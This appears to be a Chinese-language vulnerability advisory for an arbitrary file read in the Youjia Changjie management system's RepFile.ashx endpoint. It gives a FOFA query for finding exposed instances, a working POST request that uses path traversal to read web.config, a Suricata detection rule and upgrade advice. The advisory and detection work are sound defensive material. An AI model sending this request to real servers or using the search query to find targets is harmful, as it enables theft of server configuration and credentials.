

# 友加畅捷管理系统 RepFile.ashx 存在任意文件读取漏洞

友加畅捷管理系统 RepFile.ashx 存在任意文件读取漏洞

# 影响版本

友加畅捷管理系统

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   icon_hash="2049187099" || fid="zzt8lL7SUwIIZQXZY6rTSw=="

## 漏洞POC

**POC/EXP：**

**step1**  任意文件读取

```
POST /ReportDesign/RepFile.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Content-Length: 46
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

RepFile=..%2fweb.config&Type=ReadReportCpfFile
```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"友加畅捷 RepFile.ashx 任意文件读取 - Type=ReadReportCpfFile&RepFile=../ (web.config等)";
    flow:to_server,established;
    http.method; content:"POST"; nocase;
    http.uri;
        content:"/ReportDesign/RepFile.ashx";
        fast_pattern;
        nocase;
    http.content_type; content:"application/x-www-form-urlencoded"; nocase;
    http.client_body;
        content:"Type=ReadReportCpfFile"; nocase;
        content:"RepFile="; nocase;
        pcre:"/RepFile=[^&]*?(?:\.\.[\\/]|%2e%2e|%2e%2e%2f|%2e%2e%5c|\.\.%2f|\.\.%5c)/i";
    metadata:
        service http,
        affected_product "友加畅捷/友加软件 youjiasoft 企业实时运营管理平台",
        vulnerability_type "Arbitrary File Read (Path Traversal)",
        reference "RepFile.ashx ReadReportCpfFile advisory; affects ~18.8000.1095.1000",
        severity "high";
    classtype:web-application-attack;
    sid:1001401;
    rev:1;
    priority:2;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。
